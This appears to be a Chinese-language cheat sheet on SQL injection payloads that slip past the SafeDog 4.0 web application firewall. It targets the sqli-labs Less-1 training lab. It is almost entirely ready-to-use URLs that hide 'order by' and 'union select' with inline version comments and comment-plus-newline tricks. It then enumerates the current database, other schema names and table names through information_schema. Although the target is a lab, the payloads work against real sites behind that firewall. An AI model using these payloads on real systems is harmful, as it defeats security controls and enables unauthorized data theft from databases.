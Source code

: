 # 判断字段数

绕order by

内联

```
http://172.16.1.157/sql/Less-1/?id=1'/*!14440order by*/ 3 -- +
```

注释换行

```
http://172.16.1.157/sql/Less-1/?id=1'order%23%0aby 3 -- +
```

# 联合查询

关键在于打乱`union select`

内联

```
http://172.16.1.157/sql/Less-1/?id=-1' /*!14440union*//*!14440select */1,2,3 -- +
```

注释后跟垃圾字符换行

```
http://172.16.1.157/sql/Less-1/?id=-1'union%23hhh%0aselect 1,2,3--+
```

union distinct | distinctrow | all

```
http://172.16.1.157/sql/Less-1/?id=-1' union distinct %23%0aselect 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1' union distinctrow %23%0aselect 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1' union all%23%0aselect 1,2,3 -- +
```

接下来是查数据，我在这使用`注释垃圾字符换行`也就是`%23a%0a`的方法来绕，你可以用上面说的`/*!14440*/`内联

查当前数据库名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23chabug%0a select 1,database%23%0a(%0a),3 -- +
```

查其他库名 **安全狗4.0默认没开information_schema防护的时候可以过**，开了information_schema防护之后绕不过去，哭唧唧😭

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23asdasdasd%0a select 1,(select schema_name from %23%0ainformation_schema.schemata  limit 1,1),3 -- +
```

查表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23asdasdasd%0a select 1,(select table_name from %23%0ainformation_schema.tables where table_schema=database(%23%0a) limit 1,1),3 -- +
```
